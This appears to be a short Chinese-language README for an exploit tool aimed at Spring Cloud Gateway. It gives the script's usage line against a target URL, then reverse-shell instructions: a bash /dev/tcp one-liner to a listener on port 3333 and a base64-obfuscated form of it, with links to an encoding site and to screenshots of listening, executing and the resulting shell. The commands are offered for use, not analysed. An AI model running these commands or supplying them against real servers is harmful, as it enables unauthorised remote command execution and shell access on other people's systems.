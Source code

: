 使用方法

SpringCloudGateway.py -u http://192.168.0.101:9000/

退出: exit 

windows平台上执行Dir会报错

<img width="791" alt="image" src="https://user-images.githubusercontent.com/37574712/156884418-3258f830-0a31-4f21-a5ed-a47facdbe137.png">

反弹shell 参考:https://blog.csdn.net/hsj_csdn/article/details/101922218

通过如下平台编码 

https://x.hacking8.com/?post=293

bash -i >& /dev/tcp/127.0.0.1/3333 0>&1 

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYxIA==}|{base64,-d}|{bash,-i}


监听

<img width="382" alt="image" src="https://user-images.githubusercontent.com/37574712/156892966-f2274b11-2cb0-4221-9396-5158eea9717e.png">

执行

<img width="612" alt="image" src="https://user-images.githubusercontent.com/37574712/156893013-41b55d1a-6f20-403b-b281-27bd9cafbbba.png">

结果

<img width="500" alt="image" src="https://user-images.githubusercontent.com/37574712/156893028-ee3d4556-a9fb-4e65-9cfb-d0cd7a5b9ad2.png">

